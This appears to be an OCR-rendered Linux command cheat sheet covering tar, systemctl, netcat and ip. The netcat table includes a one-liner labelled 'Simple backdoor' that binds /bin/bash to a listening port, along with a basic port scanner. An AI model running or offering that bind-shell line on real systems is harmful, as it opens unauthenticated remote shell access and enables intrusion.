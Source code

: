 ***

| Command             | Explanation        |
| ------------------- | ------------------ |
| `tar -xvf file.tar` | Detailed unzipping |

***

## SYSTEMCTL

**Linux command to manage different services**

***

| Command                                         | Explanation          |
| ----------------------------------------------- | -------------------- |
| `sudo systemctl restart service`                | Restart service      |
| `sudo systemctl status service`                 | Check service status |
| `sudo systemctl stop service`                   | Stop service         |
| `sudo systemctl --type=service --state=running` | List active service  |

***

## NETCAT

**Universal utility for network connection in Unix and similar operating systems**

***

| Command                                               | Explanation                                                                                            |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| `nc host port`                                        | Connects to the host on the specified port                                                             |
| `nc -l -p port`                                       | Starts nc in listener mode on the specified port                                                       |
| `nc -z host {port-range}`                             | Basic port scanner                                                                                     |
| `nc -v host port`                                     | Get banner                                                                                             |
| `nc -l -p local_port -c 'nc remote_host remote_port'` | Configures a basic proxy where it listens for a specific local port and forwards it to a remote server |
| `nc -l -p 1234 -e /bin/bash`                          | Simple backdoor                                                                                        |

***

## IP

**Linux command to manage ІР. Older brother of ifconfig**

***

| Command      | Explanation         |
| ------------ | ------------------- |
| `ip addr`    | Shows all addresses |
| `ip -4 addr` | Shows IPv4 address  |
| `ip -6 addr` | Shows IPv6 address  |

***
